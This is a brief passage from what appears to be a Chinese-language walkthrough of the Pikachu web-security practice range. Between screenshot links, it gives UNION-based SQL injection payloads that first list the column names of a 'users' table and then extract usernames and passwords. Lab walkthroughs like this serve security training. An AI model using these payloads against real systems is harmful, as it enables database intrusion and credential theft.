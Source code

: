 ![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/pikachu/32.png)

获取字段名,输入:`a'union select table_name,column_name,2 from information_schema.columns where table_name='users'#%`

![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/pikachu/33.png)

获取数据,输入:`a'union select username ,password,4 from users#%`

![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/pikachu/34.png)
